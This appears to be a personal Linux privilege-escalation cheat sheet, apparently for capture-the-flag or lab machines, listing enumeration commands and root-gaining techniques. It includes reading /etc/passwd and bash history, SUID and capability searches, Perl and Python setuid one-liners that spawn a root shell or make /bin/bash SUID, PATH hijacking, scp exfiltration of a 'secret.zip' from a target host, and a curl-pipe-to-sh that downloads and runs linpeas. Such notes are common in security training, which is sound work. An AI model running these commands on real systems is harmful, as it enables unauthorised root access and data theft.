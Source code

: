 # Linux Priviledge Escalation

------------------------------------------------------

### Initial Commands
`whoami;id`

`cat /etc/passwd`

`sudo -l`

`crontab -l`


### Find Setuid enabled Programs
`find / -perm -u=s -type f 2>/dev/null`

### Capabilities search 
`getcap -r / 2>/dev/null`
* Check `/etc/apparmor.d` directory as it contains resctrictions for **setuid** capabilities.
* If things don't workout, try to use **shebang** (like "#! /usr/bin/perl") and then run the file like an *executable*. 

### If perl or python have CAP_SETUID capabilities, run following commands and then execute the file(for python)

* Perl: 
`perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'`

* Python:
`echo "import os;os.setuid(0);os.system('chmod u+s /bin/bash')" >test.py`

### For MySql Service:
Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

### Other useful commands and tips

* `df` - to see free disk space of all mounted devices

* Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`
	
* `export PATH=/tmp:$PATH` 

* `cat ~/.bash_history`

* Always check the home and tmp directories.

scp charix@10.10.10.84:/home/charix/secret.zip .

vncviewer 127.0.0.1:5000 -passwd secret 

ssh -L 5000:127.0.0.1:5901 charix@10.10.10.84  

cat /etc/crontab

### GIT Commands:

# Whenever you see .git files try out these commands 

* `git log`: Display git history
* `git log --oneline` : Display git history with one commit per line
* `git log -p` : Display changes made in files in each commit.
* `git reset HEAD^` : Undo the commits (Very Imp).

### Linpeas
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
